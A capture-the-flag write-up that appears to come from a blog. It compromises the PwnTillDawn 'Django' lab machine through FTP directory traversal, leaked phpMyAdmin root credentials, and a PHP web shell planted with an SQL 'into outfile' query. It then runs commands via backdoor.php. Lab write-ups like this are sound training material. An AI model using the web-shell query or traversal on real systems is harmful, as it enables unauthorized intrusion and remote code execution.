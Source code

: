 ```yaml
---
title: Django Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-28 17:33:00 +0800
categories: [Blogging, PwnTillDawn]
tags: [writeups, exploit-db, ftp, phpmyadmin, php rce, webshell]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/143782183-182fa254-95bd-4914-bcb2-278f12a3eda4.png)<br><br>

**> Information Gathering**<br>
In every engagement, one has to gather information first. As usual we run our nmap scan and from we can see that port 21 (ftp), 80 (http), 443 (ssl), 3306 (mysql) & 8089 (splunkd) are open.<br>
![image](https://user-images.githubusercontent.com/67085453/143782188-0e6f1c6a-177f-4f32-b326-2210b048a601.png)<br>

FTP service running on the target has anonymous login enabled. So, we log in with `anonymous` as a username and continued to gather more information.<br>
![image](https://user-images.githubusercontent.com/67085453/143782193-998e0ce4-e8b7-40ae-bc06-de7feb8d8f60.png)<br>

During the anonymous login, FTP printed the banner `220-Wellcome to Home Ftp Server!`. This banner does not look like the usual banner on FTP services. This is interesting to look at could be a different ftp software installed on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143782198-aed0d1d8-a8bd-4c48-bec4-c417c6079df9.png)<br>

Quick research on google shows that some version of `Home Ftp Server!` are vulnerable and there are some exploits out there.<br>
![image](https://user-images.githubusercontent.com/67085453/143782209-d66f3f9a-6bae-4a39-8cea-08937c988cec.png)<br>

We found an exploit on <a href="https://www.exploit-db.com/exploits/15349">Exploit-DB</a> which states that `Home FTP Server version 1.11.1.149` has `Directory Traversal` vulnerability. <br>
![image](https://user-images.githubusercontent.com/67085453/143782221-7dce38e4-2619-464a-9050-a6f13b469a0c.png)<br>

To exploit this vulnerability, all we need to do is to apply `/..` to the path and we can retrieve files or navigate directories. <br>
![image](https://user-images.githubusercontent.com/67085453/143782261-e0d2440d-6184-4d29-973e-27857d8eaa64.png)<br>

Typing `cd /..` takes us to the root path as seen in the screenshot above. Indeed, this version is vulnerable to `Directory Traversal`. After a couple of minutes, i found a `passwords.txt` file in the `/../xampp` directory and quickly grabbed this file to my machine. <br>
![image](https://user-images.githubusercontent.com/67085453/143782281-c9e6163d-ca6d-458e-bfb4-9d134a506dde.png)<br>

Reading the contents of `passwords.txt` revealed credentials to `MySQL (phpMyAdmin)`. The credentials found was `root:thebarrierbetween`.<br>
![image](https://user-images.githubusercontent.com/67085453/143782293-2d934d99-50cc-4921-952d-30f772351b56.png)<br>

From nmap we know that this target has a webserver running on port 80. Browsing to port 80 we can see the default page of xampp webapp. This is no surprise since we saw xampp from FTP session<br>
![image](https://user-images.githubusercontent.com/67085453/143782297-855aaeea-7b7f-4911-8541-5ebab092007a.png)<br>

On the upper-right corner on the dashboard we can see `phpMyAdmin`. Clicking on it leads us to `phpMyAdmin` login page. <br>
![image](https://user-images.githubusercontent.com/67085453/143782302-b13f94e1-569b-4f0d-8db6-6af9f8ee7677.png)<br>

We have the credentials already. I input the credentials `root:thebarrierbetween` on the login page.<br>
![image](https://user-images.githubusercontent.com/67085453/143782329-3679b60e-d2ed-46bb-ad88-45164bb76bef.png)<br>

A successful login should lead you to the admin dashboard. Remember you logged in as `root` user so we have full control over the database. There is a 90% chance that we can use `SQL Query` to create  a `php backdoor`.<br>
![image](https://user-images.githubusercontent.com/67085453/143782333-aa8a1e32-8d2b-4ac8-8990-88b082b5503d.png)<br>  

Click on `SQL`, and type the following query `SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"` from ftp, we can confirm the path of `xampp` on the target. Click on `go` to create our backdoor.<br>
![image](https://user-images.githubusercontent.com/67085453/143782341-e9e3c7b1-5860-4661-997f-752d7cd4453c.png)<br>

Log into `FTP` again, navigate to the `/../xampp/htdocs` directory to check if your file `backdoor.php` exists. If it exists, then we are 2 steps away from gaining `code execution` on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143782348-2eeb504a-c02d-4c84-8b67-cb559b0ae626.png)<br>

Navigate to http://10.150.150.212/backdoor.php?cmd=whoami and we have `code execution` on the target. You can replace `whoami` in the url with any windows commands.<br>
![image](https://user-images.githubusercontent.com/67085453/143782353-db573f36-5613-487e-a99c-e8854b0f31de.png)<br> 

**> Post Exploitation**<br>

This target does not need post exploitation but to challenge yourself, why don’t you try to spawn a reverse shell on the target and find your way up to `NT AUTHORITY\SYSTEM`. Good luck researcher...:)<br>


Reference: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>
